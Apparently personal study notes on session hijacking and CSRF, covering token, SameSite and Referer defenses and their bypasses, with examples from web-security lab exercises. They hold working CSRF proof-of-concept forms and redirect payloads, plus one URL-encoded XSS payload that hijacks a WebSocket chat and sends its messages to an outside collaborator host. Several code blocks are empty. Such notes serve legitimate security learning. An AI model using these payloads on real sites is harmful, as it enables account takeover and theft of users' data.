

Session Hijacking consists of taking over the identity of a user, bypassing authentication mechanisms.

Remembering that the server generates a session token which it sends in the HTTP header with the cookies, if an attacker managed to replicate it, he could pretend to be another user. The most common session attacks are:

- Session prediction
- Session abuse aka. [Cross-Site Request Forgery (CSRF)](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#Cross-Site%20Request%20Forgery%20(CSRF))
- [Stealing cookies and session tokens with XSS](Cross-Site%20Scripting%20(XSS).md#Steal%20of%20cookies%20and%20session%20tokens)
- Session sniffing (MITM/MITB)

# Cross-Site Request Forgery (CSRF)

>[!question] What is CSRF?
>Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. This allows attacker to partially circumvent the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md).

An HTTP request can be generated in thousands of ways, including with the following code:

```html

```

If a [crypto.example.com](http://crypto.example.com/) domain exists, attaching the following code to an e-mail would enable a victim to be defrauded by a request that was never made actively.

## How does CSRF work?

Three different key conditions must be satisfied:

- **A relevant action**: There is an action within the application that the attacker has a reason to induce. (payments, changing user's data, etc.)
- **Cookie-based session handling**: There is no other mechanism in place for tracking sessions or validating user requests besides cookies.
- **No unpredictable request parameters**: The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess.

>[!note]
>Although CSRF is normally described in relation to cookie-based session handling, it also arises in other contexts where the application automatically adds some user credentials to requests, such as HTTP Basic authentication and certificate-based authentication.

## Basic PoC

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

## Defenses against CSRF attacks

### CSRF tokens

>[!question] What is a CSRF token?
>**CSRF tokens** are a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, the client must include the correct CSRF token in the request.

#### Common bypasses and flaws

- **Validation of CSRF token depends on request method**: 
  Some applications correctly validate the token when the request uses a specific method but skip the validation when other methods are used.

- **Validation of CSRF token depends on token being present**:
  Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

- **CSRF token is not tied to the user session**:
  Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool. In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

- **CSRF token is tied to a non-session cookie**:
  Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. If the web site contains **any behavior that allows an attacker to set a cookie in a victim's browser**, then an attack is possible.
  >[!note]
  >The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on `staging.demo.normal-website.com` could be leveraged to place a cookie that is submitted to `secure.normal-website.com`.
  
  >[!example]
  >Vulnerable request which allows to set arbitrary cookies:
  >
  >CSRF request using a secondary cookie to verify CSRF owner:
  >```http
POST /my-account/change-email HTTP/1.1
Host: 0ab300650480e718c04b4561003a00e1.web-security-academy.net
Cookie: LastSearchTerm=test; csrfKey=Rgkjc4H27R86RdwCHABNut5IkSp27ptL; session=dP0hnLqpEuSTZI6o04EOafAnL1RiVYMx
Content-Length: 59
Content-Type: application/x-www-form-urlencoded
Connection: close
>
email=test%40test.com&csrf=waQRtvxCwZbNaHazxoQTU9HXCFw4PZ6S
>```

- **CSRF token is simply duplicated in a cookie**:
  In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter. This is sometimes called the "double submit" defense against CSRF. Like before, the attacker can again perform a CSRF attack if the web site contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own.
  >[!example]
  >```http
  >POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa
>
>csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
>```

### SameSite attribute on cookies

>[!question] What is the SameSite attirbute for cookies?
>SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. As requests to perform sensitive actions typically require an authenticated session cookie, the appropriate SameSite restrictions may prevent an attacker from triggering these actions cross-site.

They provide partial protections against various cross-site attacks, including:
- [Cross-Site Request Forgery (CSRF)](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#Cross-Site%20Request%20Forgery%20(CSRF))
- Cross-Site leaks
- [CORS based attacks](CORS%20based%20attacks.md)

>[!important] Domain =/= site
>Important distinction as it means that any vulnerability enabling arbitrary JavaScript execution can be abused to bypass site-based defenses on other domains belonging to the same site.

In the context of SameSite cookie restrictions, a **site** is defined as a combination of **scheme** + the **top-level domain** + **one additional level of the domain**:
- `http://app.example.com` and `https://app.example.com` are considered two distinct sites.
- `http://app.example.com` and `http://app2.example.com` are considered the same site (because 3rd level domain and below are not considered)

A **site** is also different by an **origin** (ref. [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md) for further information):

| Request from            | Request to                   | Same-site?            | Same-origin?               |
| ----------------------- | ---------------------------- | --------------------- | -------------------------- |
| https://example.com     | https://example.com          | Yes                   | Yes                        |
| https://app.example.com | https://intranet.example.com | Yes                   | No: mismatched domain name |
| https://example.com     | https://example.com:8080     | Yes                   | No: mismatched port        |
| https://example.com     | https://example.co.uk        | No: mismatched eTLD   | No: mismatched domain name |
| https://example.com     | http://example.com           | No: mismatched scheme | No: mismatched scheme      |

SameSite can have three different values:
- **Strict**: browsers will not send the cookie in any cross-site requests.
- **Lax**: browsers will send the cookie in cross-site requests, but only if **the request uses the `GET` method** and it **resulted from a top-level navigation** by the user, such as clicking on a link.
- **None**: browsers will send this cookie in all requests to the site that issued it, even those that were triggered by completely unrelated third-party sites.
  >[!warning]
  >When setting a cookie with `SameSite=None`, the website must also include the `Secure` attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS. Otherwise, browsers will reject the cookie and it won't be set.

#### Common bypasses and flaws

- **Bypassing SameSite Lax restrictions using GET requests**: 
  sometimes server aren't always fussy about whether they receive a GET or POST request to a given endpoint. In this case it's possible to **transform a `POST` request into a `GET` request** and bypass the Lax restriction.
  >[!note]
  >As long as the request involves a **top-level navigation**, the browser will still include the victim's session cookie. Form submissions do not work!
  
  ```html
  <script> document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000'; </script>
  ```
  Even if an ordinary `GET` request isn't allowed, **some frameworks provide ways of overriding the method** specified in the request line:
  ```html
  <form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
  ```

- **Bypassing SameSite Lax restrictions with newly issued cookies**:
  Cookies with Lax SameSite restrictions aren't normally sent in any cross-site POST requests, but there are some exceptions. To avoid breaking single sign-on mechanisms, **Chrome doesn't actually enforce these restrictions at all for the first 120 seconds after a cookie is set**. It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack.
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/');
    // open a popup to force the cookie refresh
    window.onclick = () => {
        window.open('https://0a77007f04d29645c20fc03300cd0049.web-security-academy.net/my-account')
    }</script>
    <form action="https://0a77007f04d29645c20fc03300cd0049.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test123&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- **Bypassing SameSite restrictions using on-site gadgets**:
  If a cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests. However, you may be able to get around this limitation if you can **find a gadget** that results in a secondary request within the same site, like an [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or an [Open Redirection](Open%20Redirection.md) from the DOM.
  >[!example]
>Javascript file performing a dom redirection, called from the page `/post/comment/confirmation?postId=2` with the following line `redirectOnConfirmation('/post');`:
>
  >```js
>redirectOnConfirmation = (blogPath) => {
>    setTimeout(() => {
>        const url = new URL(window.location);
>        const postId = url.searchParams.get("postId");
>        window.location = blogPath + '/' + postId;
>    }, 3000);
>}
>```
>Exploit:
>```html
><script>document.location="https://0ab7007804429578c1546dc7002c0017.web-security-academy.net/post/comment/confirmation?postId=../../../../../../my-account/change-email?email=test%40test.com%26submit=1";</script>
>```
  
   >[!warning]
  Note that the equivalent attack is not possible with server-side redirects. In this case, browsers recognize that the request to follow the redirect resulted from a cross-site request initially, so they still apply the appropriate cookie restrictions.

- **Bypassing SameSite restrictions via vulnerable sibling domains**:
  It's essential to keep in mind that a request can still be same-site even if it's issued cross-origin. Vulnerabilities that enable you to elicit an arbitrary secondary request, like [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md), can compromise site-based defenses completely, exposing all of the site's domains to cross-site attacks, including [Cross-site WebSockets hijacking (CSWSH)](WebSockets.md#Cross-site%20WebSockets%20hijacking%20(CSWSH))
  >[!example]
  >Session cookie has the SameSite attribute set to Strict: `Set-Cookie: session=9zoajIpR9fdqvXj3IiNbzNHQhC7q8yCo; Secure; HttpOnly; SameSite=Strict`
  >XSS gadget on a different domain from the same site of the vulnerable application:
  >
  >Final PoC to leak victim's chat and perform [Cross-site WebSockets hijacking (CSWSH)](WebSockets.md#Cross-site%20WebSockets%20hijacking%20(CSWSH)):
  >```html
  ><script>document.location="https://cms-0a8b0080049320f7c0df54a800d500f6.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%38%62%30%30%38%30%30%34%39%33%32%30%66%37%63%30%64%66%35%34%61%38%30%30%64%35%30%30%66%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%7d%3b%0a%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%37%79%36%67%30%35%33%73%71%67%7a%30%36%7a%66%31%74%36%61%6d%75%34%64%37%71%79%77%70%6b%68%38%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=pippo";</script>
>```

### Referer-based validation

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, by verifying that the request originated from the application's own domain.

#### Common bypasses and flaws

- **Validation of Referer depends on header being present**:
  Some applications validate the `Referer` header when it is present in requests but skip the validation if the header is omitted. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack: `<meta name="referrer" content="never">`
>[!example]
>```html
><html>
><meta name="referrer" content="never">
>  <!-- CSRF PoC - generated by Burp Suite Professional -->
>  <body>
>  <script>history.pushState('', '', '/')</script>
>    <form action="https://0a85006803036428c2d207fe00770035.web-security-academy.net/my-account/change-email" method="POST">
>      <input type="hidden" name="email" value="test&#64;test&#46;com" />
>      <input type="submit" value="Submit request" />
>    </form>
>    <script>
>      document.forms[0].submit();
>    </script>
>  </body>
></html>
>```

- **Validation of Referer can be circumvented**:
  Some applications validate the `Referer` header in a naive way that can be bypassed (eg. appending or adding at the end of the query string the desired domain). Hwever, refer to [Evading Restrictions](Evading%20Restrictions.md) for further techniques.
>[!warning]
>Although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to reduce the risk of sensitive data being leaked in this way, **many browsers now strip the query string from the Referer header by default**. You can override this behavior by making sure that the response containing your exploit has the `Referrer-Policy: unsafe-url` header set. This ensures that the full URL will be sent, including the query string.

   >[!example]
   >Response header must include `Referrer-Policy: unsafe-url`
>```html
><html>
>  <!-- CSRF PoC - generated by Burp Suite Professional -->
>  <body>
>  <script>history.pushState('', '', '/exploit?a=https://0ac600c103f641ccc0307dc500fd001e.web-security-academy.net')</script>
>    <form action="https://0ac600c103f641ccc0307dc500fd001e.web-security-academy.net/my-account/change-email" method="POST">
>      <input type="hidden" name="email" value="test&#64;test&#46;com" />
>      <input type="submit" value="Submit request" />
>    </form>
>    <script>
>      document.forms[0].submit();
>    </script>
>  </body>
></html>
>```


---

# Session Prediction

The practice of guessing a Session ID in order to bypass authentication. There are no special practices for exploiting these vulnerabilities other than by analyzing tokens and their encryption mechanisms.